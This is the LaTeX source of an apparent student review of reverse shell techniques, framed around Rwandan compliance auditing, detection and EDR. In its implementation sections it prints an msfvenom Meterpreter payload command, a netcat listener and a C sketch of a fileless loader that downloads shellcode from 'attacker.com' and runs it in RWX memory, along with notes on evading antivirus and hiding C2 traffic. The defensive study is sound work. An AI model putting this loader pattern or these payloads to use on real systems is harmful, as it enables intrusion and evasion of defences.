\documentclass[11pt,conference]{IEEEtran}
\usepackage{cite}
\usepackage{amsmath,amssymb,amsfonts}
\usepackage{algorithmic}
\usepackage{graphicx}
\usepackage{textcomp}
\usepackage{xcolor}
\usepackage{hyperref}
\usepackage{booktabs}
\usepackage{listings}
\usepackage{tikz}
\usepackage{pgfplots}
\pgfplotsset{compat=1.17}
\usetikzlibrary{shapes,arrows,positioning,calc,fit,backgrounds}

\lstset{
    basicstyle=\scriptsize\ttfamily,
    breaklines=true,
    frame=single,
    numbers=none,
    showstringspaces=false
}

\begin{document}

\title{Deliverable 1.3: Reverse Shell Exploit Techniques Review}

\author{\IEEEauthorblockN{Moise IRADUKUNDA INGABIRE}
\IEEEauthorblockA{\textit{Collegue of Engineering} \\
\textit{Carnegie Mellon University Africa}\\
Kigali, Rwanda \\
mii@andrew.cmu.edu}}

\maketitle

\section{Introduction}

Reverse shells represent a fundamental post-exploitation technique enabling attackers to establish command and control (C2) over compromised systems. Unlike bind shells that listen for incoming connections (easily blocked by firewalls), reverse shells initiate outbound connections from the victim to the attacker, bypassing typical network defenses. This review examines reverse shell implementation techniques, detection challenges, and their implications for compliance auditing, particularly for Rwanda NCSA controls related to network security (SC-7), system monitoring (SI-4), and incident response (IR-4).

\section{Reverse Shell Fundamentals}

\subsection{Mechanism}

\textbf{Traditional Attack Flow:}
\begin{enumerate}
    \item Attacker sets up listener on attacker-controlled server (e.g., \texttt{nc -lvp 4444})
    \item Victim system executes shellcode/payload
    \item Payload creates outbound TCP connection to attacker's IP:port
    \item Connection provides shell access (\texttt{cmd.exe}, \texttt{/bin/bash})
    \item Attacker executes commands remotely
\end{enumerate}

\textbf{Why Reverse Shells Bypass Firewalls:}
\begin{itemize}
    \item Outbound connections typically allowed (necessary for web browsing, updates)
    \item Inbound connections blocked by default firewall rules
    \item NAT/PAT traversal: victim behind NAT can still connect outbound
    \item Appears as legitimate outbound traffic if ports 80/443 used
\end{itemize}

\subsection{Standard Metasploit Implementation}

The Metasploit Framework provides automated reverse shell generation via Msfvenom:

\begin{lstlisting}[language=bash]
msfvenom -p windows/x64/meterpreter/reverse_tcp \
  LHOST=192.168.1.10 LPORT=4444 \
  -f exe -o payload.exe
\end{lstlisting}

\textbf{Payload Characteristics:}
\begin{itemize}
    \item Shellcode embedded directly in executable
    \item Creates socket, connects to LHOST:LPORT
    \item Provides interactive Meterpreter shell with advanced features:
    \begin{itemize}
        \item File upload/download
        \item Screenshot capture
        \item Keylogging
        \item Privilege escalation
        \item Lateral movement
    \end{itemize}
    \item \textbf{Detection Rate}: 44/70 antivirus engines (VirusTotal, 2023 study)
\end{itemize}

\section{Custom Reverse Shell Evasion Technique}

\subsection{Research Methodology}

The academic paper \textit{Evading Signature-Based Antivirus Software Using Custom Reverse Shell Exploit} presents a novel architecture:

\textbf{Key Innovation: Shellcode Separation}
\begin{enumerate}
    \item Shellcode NOT embedded in executable
    \item Stored on remote HTTP/HTTPS server
    \item Downloaded at runtime into allocated memory
    \item Executed directly from memory (fileless)
\end{enumerate}

\subsection{Implementation Details}

\textbf{Modified Payload Structure:}
\begin{lstlisting}[language=C]
// Standard Metasploit: shellcode embedded
unsigned char shellcode[] = "\xfc\x48\x83...";
((void(*)())shellcode)();

// Custom approach: download shellcode
HINTERNET hInternet = InternetOpen(...);
HINTERNET hConnect = InternetOpenUrl(hInternet,
    "http://attacker.com/shellcode.bin", ...);

LPVOID exec_mem = VirtualAlloc(NULL, shellcode_size,
    MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

InternetReadFile(hConnect, exec_mem, ...);
((void(*)())exec_mem)();
\end{lstlisting}

\textbf{Critical APIs Used:}
\begin{itemize}
    \item \texttt{InternetOpen/InternetOpenUrl}: HTTP/HTTPS connectivity
    \item \texttt{VirtualAlloc}: Allocate RWX memory region
    \item \texttt{InternetReadFile}: Read shellcode into memory
    \item Function pointer cast: Execute from memory address
\end{itemize}

\subsection{Evasion Results}

\begin{table}[h]
\centering
\caption{Detection Rate Comparison}
\begin{tabular}{|l|c|c|}
\hline
\textbf{Payload Type} & \textbf{Detections} & \textbf{Rate} \\
\hline
Standard Metasploit & 44/70 & 62.9\% \\
\hline
Custom (Fileless) & 1/70 & 1.4\% \\
\hline
\textbf{Reduction} & \textbf{-43} & \textbf{-97\%} \\
\hline
\end{tabular}
\end{table}

\textbf{Analysis:}
\begin{itemize}
    \item Only 1 AV engine (likely behavioral) detected custom payload
    \item 69 engines failed (rely on signature matching embedded shellcode)
    \item Fileless execution evades file-based scanning
    \item Network download appears benign (HTTP GET request)
\end{itemize}

\section{Detection Challenges}

\subsection{Why Signature-Based Detection Fails}

\textbf{1. No Malicious Signatures on Disk:}
\begin{itemize}
    \item Executable contains only downloader logic (appears benign)
    \item Actual shellcode never written to disk
    \item File hash changes with each compile (non-deterministic)
\end{itemize}

\textbf{2. Legitimate API Usage:}
\begin{itemize}
    \item \texttt{InternetOpen} used by browsers, updaters
    \item \texttt{VirtualAlloc} used by JIT compilers, games
    \item No single API call is inherently malicious
\end{itemize}

\textbf{3. Encrypted Transport:}
\begin{itemize}
    \item HTTPS download prevents network IDS inspection
    \item Shellcode encrypted in transit
    \item Decrypted only in memory
\end{itemize}

\subsection{Behavioral Indicators}

While signature detection fails, behavioral analysis can identify suspicious patterns:

\textbf{Red Flags:}
\begin{itemize}
    \item RWX memory allocation (PAGE\_EXECUTE\_READWRITE)
    \item Execution from non-standard memory regions (heap, stack)
    \item Outbound connection to non-whitelisted IP
    \item Parent process anomalies (e.g., Word.exe spawning network connections)
    \item Unusual API call sequences (download → allocate → execute)
\end{itemize}

\textbf{EDR Detection Opportunities:}
\begin{itemize}
    \item Hook \texttt{VirtualAlloc} to alert on RWX allocations
    \item Monitor \texttt{CreateThread} with start address in heap/stack
    \item Network traffic analysis (beaconing patterns, C2 domains)
    \item Process tree analysis (unexpected child processes)
\end{itemize}

\section{Advanced Reverse Shell Techniques}

\subsection{Staged vs. Stageless Payloads}

\textbf{Staged (Metasploit Default):}
\begin{itemize}
    \item Small initial payload (stage 0)
    \item Downloads larger payload (stage 1) after connection
    \item Advantages: Smaller initial footprint, modular
    \item Disadvantages: Two-stage detection opportunity
\end{itemize}

\textbf{Stageless:}
\begin{itemize}
    \item Complete shell in single payload
    \item No secondary download required
    \item Larger file size but single-stage execution
\end{itemize}

\subsection{C2 Communication Obfuscation}

\textbf{1. Domain Fronting:}
\begin{itemize}
    \item Use CDN (CloudFront, Azure CDN) to hide true C2 server
    \item HTTPS SNI indicates legitimate domain (e.g., \texttt{microsoft.com})
    \item Actual HTTP Host header points to attacker server
    \item Bypasses domain-based blocking
\end{itemize}

\textbf{2. DNS Tunneling:}
\begin{itemize}
    \item Encode C2 commands in DNS queries
    \item Responses contain attacker instructions
    \item Extremely difficult to detect (DNS always allowed outbound)
\end{itemize}

\textbf{3. Protocol Mimicry:}
\begin{itemize}
    \item Disguise C2 traffic as HTTP, HTTPS, SMB
    \item Add legitimate-looking headers, cookies
    \item Blend with normal enterprise traffic
\end{itemize}

\section{Implications for Compliance Auditing}

\subsection{Relevant Rwanda NCSA Controls}

\textbf{SC-7: Boundary Protection}
\begin{itemize}
    \item \textbf{Requirement}: "Monitor and control communications at external boundaries"
    \item \textbf{Challenge}: Reverse shells use allowed outbound ports (80, 443)
    \item \textbf{Audit Validation}: Check for egress filtering, allowlist-based outbound rules
    \item \textbf{Evidence}: Firewall logs showing blocked outbound connections to non-whitelisted IPs
\end{itemize}

\textbf{SI-4: System Monitoring}
\begin{itemize}
    \item \textbf{Requirement}: "Monitor system for indicators of compromise"
    \item \textbf{Challenge}: Fileless attacks leave minimal forensic evidence
    \item \textbf{Audit Validation}: Verify EDR deployment, memory scanning capabilities
    \item \textbf{Evidence}: EDR alerts on RWX memory allocations, suspicious API sequences
\end{itemize}

\textbf{IR-4: Incident Handling}
\begin{itemize}
    \item \textbf{Requirement}: "Implement incident response capability"
    \item \textbf{Challenge}: Detecting reverse shell requires behavioral analysis
    \item \textbf{Audit Validation}: Incident response playbooks for C2 detection
    \item \textbf{Evidence}: SIEM correlation rules, threat hunting queries
\end{itemize}

\subsection{Evidence-to-Control Mapping}

For the AI-augmented compliance auditor, reverse shell indicators map to multiple controls:

\textbf{Log Evidence Examples:}
\begin{itemize}
    \item Firewall log: \texttt{DENY OUT TCP 192.168.1.50:52341 → 203.0.113.15:4444}
    \item EDR alert: \texttt{Suspicious RWX allocation by excel.exe}
    \item Network IDS: \texttt{Beaconing detected: 60s intervals to unknown IP}
\end{itemize}

\textbf{Multi-Label XGBoost Classification:}
\begin{itemize}
    \item Firewall deny → SC-7 (Boundary Protection)
    \item EDR alert → SI-4 (Monitoring) + SI-3 (Malware Protection)
    \item SIEM correlation → IR-4 (Incident Handling)
\end{itemize}

This demonstrates why multi-label classification is necessary - a single reverse shell attempt generates evidence relevant to 3-4 different controls.

\subsection{Synthetic Evidence Generation}

To train the compliance auditor, synthetic reverse shell evidence can be generated:

\textbf{Approach:}
\begin{enumerate}
    \item Simulate reverse shell connection attempts in isolated environment
    \item Capture firewall logs, EDR alerts, network traffic
    \item Label with relevant control IDs: SC-7, SI-3, SI-4, IR-4
    \item Augment with variations: different ports, protocols, obfuscation levels
\end{enumerate}

\textbf{Benefit for Rwanda Context:}
\begin{itemize}
    \item Real C2 traffic data is sensitive and scarce
    \item Synthetic data provides safe training corpus
    \item Can test edge cases (DNS tunneling, domain fronting)
    \item Validates auditor's ability to detect novel techniques
\end{itemize}

\section{Defensive Recommendations}

\textbf{For Rwandan Institutions:}
\begin{enumerate}
    \item \textbf{Egress Filtering}: Default-deny outbound, allowlist known-good destinations
    \item \textbf{EDR Deployment}: Prioritize behavioral detection over signatures
    \item \textbf{Network Monitoring}: Implement beaconing detection, DNS analysis
    \item \textbf{Application Whitelisting}: Prevent unauthorized executables
    \item \textbf{User Training}: Phishing awareness (common reverse shell delivery)
\end{enumerate}

\textbf{For AI Compliance Auditor:}
\begin{enumerate}
    \item Validate presence of EDR, not just signature-based AV
    \item Check for egress firewall rules (not just ingress)
    \item Verify SIEM integration for correlation (isolated tools insufficient)
    \item Assess incident response capability through tabletop exercises
\end{enumerate}

\section{Research Gaps}

\begin{enumerate}
    \item \textbf{Limited African Context}: No research on reverse shell usage in attacks targeting African institutions
    \item \textbf{Detection Baselines}: No standardized metrics for "acceptable" reverse shell detection rate
    \item \textbf{Compliance Specificity}: Rwanda NCSA does not explicitly address fileless attacks or C2 detection
    \item \textbf{Cost-Effectiveness}: Enterprise EDR unaffordable for many Rwandan SMEs - need open-source alternatives
\end{enumerate}

\section{Conclusion}

Reverse shell exploits, particularly fileless variants, demonstrate the inadequacy of signature-based detection (97\% evasion rate). The technique's reliance on legitimate outbound connections and runtime memory execution challenges traditional perimeter and endpoint defenses. For compliance auditing, this necessitates:

\begin{itemize}
    \item \textbf{Shift from presence to effectiveness}: Controls must demonstrably detect modern techniques
    \item \textbf{Multi-layered validation}: Boundary protection (SC-7) + Monitoring (SI-4) + Incident Response (IR-4)
    \item \textbf{Behavioral evidence focus}: EDR alerts, network anomalies, SIEM correlations
    \item \textbf{Synthetic training data}: Safe generation of C2 traffic patterns for ML model training
\end{itemize}

The AI-augmented compliance auditor's multi-label classification approach correctly reflects this reality - reverse shell detection is not a single-control issue but requires coordinated implementation across SC, SI, and IR control families.

\begin{figure*}[htbp]
\centering

\begin{tikzpicture}[
    node distance=0.8cm,
    box/.style={rectangle, draw, fill=blue!10, text width=2.3cm, align=center, minimum height=0.7cm, font=\scriptsize, rounded corners=1pt},
    alert/.style={rectangle, draw, fill=red!20, text width=2.3cm, align=center, minimum height=0.7cm, font=\scriptsize, rounded corners=1pt},
    safe/.style={rectangle, draw, fill=green!20, text width=2.3cm, align=center, minimum height=0.7cm, font=\scriptsize, rounded corners=1pt},
    arrow/.style={->, >=stealth},
    label/.style={font=\footnotesize\bfseries}
]

% Left side: Standard Metasploit
\node[label] (std-title) at (0,0) {Standard Metasploit};
\node[box, below=0.4cm of std-title] (std1) {msfvenom\\generate};
\node[box, below=of std1] (std2) {payload.exe\\embedded};
\node[alert, below=of std2] (std3) {Write to disk};
\node[alert, below=of std3] (std4) {AV scan};
\node[alert, below=of std4] (std5) {44/70 detected};
\node[box, below=of std5] (std6) {Execute};
\node[box, below=of std6] (std7) {Connect C2};

% Right side: Fileless Custom
\node[label] (file-title) at (6.5,0) {Fileless Custom};
\node[box, below=0.4cm of file-title] (file1) {Host shellcode\\remotely};
\node[box, below=of file1] (file2) {downloader.exe\\benign};
\node[safe, below=of file2] (file3) {Write to disk\\(clean)};
\node[safe, below=of file3] (file4) {AV scan\\(pass)};
\node[box, below=of file4] (file5) {Download\\HTTP};
\node[safe, below=of file5] (file6) {VirtualAlloc\\RWX};
\node[safe, below=of file6] (file7) {Execute\\memory};
\node[box, below=of file7] (file8) {Connect C2};

% Result boxes
\node[alert, below=1cm of std7, text width=2.5cm, font=\scriptsize] (result1) {\textbf{Detection:}\\62.9\%};
\node[safe, below=1cm of file8, text width=2.5cm, font=\scriptsize] (result2) {\textbf{Detection:}\\1.4\%\\(97\% evasion)};

% Arrows
\draw[arrow] (std1) -- (std2);
\draw[arrow] (std2) -- (std3);
\draw[arrow] (std3) -- (std4);
\draw[arrow] (std4) -- (std5);
\draw[arrow] (std5) -- (std6);
\draw[arrow] (std6) -- (std7);
\draw[arrow] (std7) -- (result1);

\draw[arrow] (file1) -- (file2);
\draw[arrow] (file2) -- (file3);
\draw[arrow] (file3) -- (file4);
\draw[arrow] (file4) -- (file5);
\draw[arrow] (file5) -- (file6);
\draw[arrow] (file6) -- (file7);
\draw[arrow] (file7) -- (file8);
\draw[arrow] (file8) -- (result2);

% Key difference annotation
\draw[dashed, thick, red] ([xshift=-0.2cm]std3.west) -- ([xshift=0.2cm]std5.east);
\node[font=\tiny, text width=1.8cm, align=center] at (-1.5, -4.5) {Signature\\detection};

\draw[dashed, thick, green!60!black] ([xshift=-0.2cm]file3.west) -- ([xshift=0.2cm]file7.east);
\node[font=\tiny, text width=2cm, align=center] at (8.5, -4.5) {Memory-only\\evasion};

\end{tikzpicture}
\caption{Standard Metasploit vs. fileless reverse shell attack flow showing 97\% evasion improvement}
\label{fig:reverse_shell_comparison}
\end{figure*}

\end{document}
